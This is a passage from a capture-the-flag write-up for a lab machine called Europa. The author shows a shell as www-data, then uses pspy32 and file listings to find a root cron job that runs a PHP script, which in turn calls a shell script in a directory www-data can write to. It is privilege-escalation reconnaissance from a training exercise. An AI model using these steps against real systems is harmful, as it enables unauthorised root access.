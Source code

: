 ```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
europa
www-data@europa:/var/www/admin$ 
```

As you can see we have a shell back. You can read the user flag now.

# [](#header-1)PRIVILEGE ESCALATION:

If we look for files in the home directory of `www-data` :

```
www-data@europa:/var/www$ ls -al
total 24
drwxr-xr-x  6 root root     4096 May 12  2017 .
drwxr-xr-x 14 root root     4096 Apr 18  2017 ..
drwxr-xr-x  7 root root     4096 Jul 27  2017 admin
drwxrwxr-x  2 root www-data 4096 May 12  2017 cmd
drwxr-xr-x  2 root root     4096 Jun 23  2017 cronjobs
drwxr-xr-x  2 root root     4096 Jul 27  2017 html
www-data@europa:/var/www$ 
```

There is a directory called `cronjobs`. This is interesting. Let us run `pspy32` to see if there is something running on intervals.

```python
2021/03/12 19:13:01 CMD: UID=0    PID=1746   | /usr/bin/php /var/www/cronjobs/clearlogs 
2021/03/12 19:13:01 CMD: UID=0    PID=1745   | /bin/sh -c /var/www/cronjobs/clearlogs 
2021/03/12 19:13:01 CMD: UID=0    PID=1744   | /usr/sbin/CRON -f 
2021/03/12 19:14:01 CMD: UID=0    PID=1751   | /usr/bin/php /var/www/cronjobs/clearlogs 
2021/03/12 19:14:01 CMD: UID=0    PID=1750   | /bin/sh -c /var/www/cronjobs/clearlogs 
2021/03/12 19:14:01 CMD: UID=0    PID=1749   | /usr/sbin/CRON -f 
2021/03/12 19:15:01 CMD: UID=0    PID=1756   | /usr/bin/php /var/www/cronjobs/clearlogs 
2021/03/12 19:15:01 CMD: UID=0    PID=1755   | /bin/sh -c /var/www/cronjobs/clearlogs 
2021/03/12 19:15:01 CMD: UID=0    PID=1754   | /usr/sbin/CRON -f
```

There is indeed a PHP script `/var/www/cronjobs/clearlogs` running in every 1 minute.

```
www-data@europa:/var/www$ ls -l cronjobs/clearlogs 
-r-xr-xr-x 1 root root 132 May 12  2017 cronjobs/clearlogs
www-data@europa:/var/www$ cat cronjobs/clearlogs 
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
www-data@europa:/var/www$
```

We do not have write permission to the script. The script is just running another bash script `/var/www/cmd/logcleared.sh`.
